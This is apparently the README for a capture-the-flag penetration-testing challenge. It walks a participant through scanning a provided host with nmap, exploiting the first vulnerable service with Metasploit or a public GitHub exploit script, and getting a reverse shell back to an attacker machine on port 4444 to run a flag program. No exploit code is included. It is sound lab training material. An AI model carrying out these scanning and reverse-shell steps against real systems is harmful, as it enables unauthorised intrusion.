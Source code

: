 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup
Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge
- Run nmap
- Run metasploit or a different exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./flag <SALT>`

#### Nmap
Install nmap.

For Debian/Ubuntu:

`apt-get install nmap`
 
For RedHat/CentOS:

`sudo yum install nmap`

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -p-`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports.
* `-PS`, `-PA`, `-PU` {PORT_NUMBERS}: Replace it with the ports to scan. TCP SYN/ACK or 
UDP discovery.
* `-sV`: Determine service and version info.
* `-O`: Determine OS info. 
* `-A`: Determine service/version and OS info.
* `-script` {SCRIPT_NAME}: Start the scan with the given script.
* `--script` {SCRIPT_LIST}: Start the scan with the given scripts.

For a detailed list of all parameters availible please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

#### Metasploit
If you have Docker installed you can simply run the metasploit container image. Metasploit should be installed on a EC2 that is internet accessible to allow for the meterpreter to run. 

Here's how to do it:

Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results:

`search <name of the application you are looking to exploit>`

Select the exploit you are going to use from the search results:

`use <path/to/the/exploit>`

Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`

`set RPORT <port>`

`set LHOST <remote IP of Metasploit machine>`

`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use a public exploit available on GitHub:

First, you need to clone the repository into your attacker's machine:

`git clone <exploit_github>`

Go to the project folder and install the library dependencies:

`cd <exploit_github>`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./exploit.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`


